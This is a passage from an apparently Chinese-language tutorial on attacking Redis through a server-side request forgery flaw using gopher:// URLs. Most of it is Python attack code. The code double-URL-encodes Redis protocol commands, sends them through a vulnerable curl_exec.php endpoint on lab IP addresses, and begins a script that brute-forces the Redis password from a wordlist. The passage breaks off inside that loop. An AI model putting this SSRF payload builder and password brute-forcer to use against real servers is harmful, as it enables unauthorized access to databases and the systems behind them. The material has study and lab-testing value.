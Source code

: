 ```python
"""

def encoder_url(data):
    encoder = ""
    for single_char in data:
        # 先转为ASCII
        encoder += str(hex(ord(single_char)))
    encoder = encoder.replace("0x","%").replace("%a","%0d%0a")
    return encoder

# 二次编码
encoder = encoder_url(encoder_url(data))

# 生存payload
payload = url + urllib.quote(gopher,'utf-8') + encoder

# 发起请求
request = urllib2.Request(payload)
response = urllib2.urlopen(request).read()
```

### 0x02 Redis认证攻击
以上为Redis未授权访问攻击，但如果Redis设置了密码呢？<br />如果要执行命令的话，必须要有密码才可以，所以接下来的问题便是如何破解Redis的密码，首先想到的暴力破解。此时要研究下Redis如何验证身份信息。方法还是抓包，抓到认证的流量，重放即可。抓包发现：
```
*2
$4
auth
$6
Margin
```
可以翻译为认证命令为auth xxxx<br />那么我们将redis的密码改为任意密码，我设置为Margin
```
config set requirepass Margin
```
将请求包改为
```
auth Margin
quit
```
python代码变为
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib

url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
gopher = "gopher://192.168.0.119:6379/_"

def get_password():
    f = open("password.txt","r")
    return f.readlines()

def encoder_url(data):
    encoder = ""
    for single_char in data:
        # 先转为ASCII
        encoder += str(hex(ord(single_char)))
    encoder = encoder.replace("0x","%").replace("%a","%0d%0a")
    return encoder

mark = 0
for password in get_password():
    # 攻击脚本
```